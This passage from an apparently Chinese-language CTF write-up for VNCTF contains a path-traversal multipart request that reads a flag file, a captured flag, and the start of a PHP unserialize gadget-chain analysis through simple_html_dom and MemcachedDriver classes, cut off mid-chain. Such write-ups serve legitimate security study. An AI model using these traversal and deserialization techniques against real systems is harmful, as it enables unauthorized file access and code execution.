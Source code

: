 ```http  
../../../home/ming/share_main/flag.txt  
------WebKitFormBoundary4GWMTiRPXoB99YrX  
Content-Disposition: form-data; name=&#34;old&#34;  
  
../../../flag/flag/flag.txt  
------WebKitFormBoundary4GWMTiRPXoB99YrX--  
```  
访问`/chfs/shared/flag.txt?v=1`得到flag  
`VNCTF{564e406840636b3156315f6764676d}`  
## codefever_again  
根据 https://github.com/PGYER/codefever/issues/140 来打  
## zhi  
### Unserialize RCE  
在`giftcontroller`控制器下面存在如下方法  
```php  
public function globallike(){  
	 $mylike=$_COOKIE[&#39;mylike&#39;];  
	 $arr = unserialize($mylike);  
  
	 echo count($arr);  
}  
```  
很明显存在一个`unserialize`  
全局搜索`__destruct`，利用`simple_html_dom`类中的`__destruct`方法  
```php  
function __destruct()  
{  
	$this-&gt;clear();  
}  
```  
跟进查看`clear()`  
```php  
function clear()  
{  
	foreach ($this-&gt;nodes as $n) {$n-&gt;clear(); $n = null;}  
	// This add next line is documented in the sourceforge repository. 2977248 as a fix for ongoing memory leaks that occur even with the use of clear.  
	if (isset($this-&gt;children)) foreach ($this-&gt;children as $n) {$n-&gt;clear(); $n = null;}  
	if (isset($this-&gt;parent)) {$this-&gt;parent-&gt;clear(); unset($this-&gt;parent);}  
	if (isset($this-&gt;root)) {$this-&gt;root-&gt;clear(); unset($this-&gt;root);}  
	unset($this-&gt;doc);  
	unset($this-&gt;noise);  
}  
```  
这里可以任意调用`__call()`方法，或者`clear()`方法  
这里利用`MemcachedDriver`类中的`clear()`方法  
```php  
public function clear() {  
	return $this-&gt;mmc-&gt;set($this-&gt;group.&#39;_ver&#39;, $this-&gt;ver&#43;1);  
}  
```  
利用拼接进行触发`__toString`方法，选择`simple_html_dom_node`类  
```php  
function __toString()  
{  
	return $this-&gt;outertext();  
}  
```  
进入`outertext()`方法  
```php  
function outertext()  
```